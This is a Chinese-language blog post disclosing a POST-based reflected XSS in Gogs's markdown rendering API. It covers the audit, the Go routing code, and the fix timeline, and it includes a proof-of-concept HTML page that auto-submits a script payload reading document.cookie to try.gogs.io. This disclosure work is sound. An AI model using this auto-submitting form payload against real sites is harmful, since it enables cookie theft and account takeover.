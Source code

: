 ```yaml
---
title: Gogs post 反射型 Xss
date: 2020-01-28T00:13:39+08:00
lastmod: 2020-01-28T00:13:39+08:00
categories: ["网络安全"]
description:
---
```


### 通过form利用gogs的post型反射型xss

### 审计

在审计gogs代码时发现gogs的api允许渲染markdown.最初以为是无法利用的,但发现gogs这个api返回的content-type是html,并且没有csrf机制.

```go
m.Group("/v1", func() {
	// Handle preflight OPTIONS request
	m.Options("/*", func() {})

	// Miscellaneous
	m.Post("/markdown", bind(api.MarkdownOption{}), misc2.Markdown)
	m.Post("/markdown/raw", misc2.MarkdownRaw)
```

但这个api仅仅允许post方法,不能通过常见的get方法来进行xss.



### 构造poc

无法直接通过url 提交一个post请求,但可以通过form元素进行提交并直接重定向. 

最简单的提交例子

```html
<form name=Form action=url method=post>
 <input type=hidden name=xxx value=xxx>
</form>
<script>
 document.Form.submit();
</script>
```

这和csrf都是通过伪造请求来利用 只是csrf是通过xhr请求 这是通过form来得到需要的重定向.



最后的poc

```html
 <html> 

<body onload="document.forms[0].submit()"> 

<form method="post"
   action="http://try.gogs.io/api/v1/markdown"> 

   

<input type="hidden" name="text"
   value="<script>alert(document.cookie)</script>"> 

</form> 

</html> 
```



漏洞时间线

```
1.25 发送提交漏洞邮件
1.25 一小时后得到第一次回应
1.27 漏洞修复
```

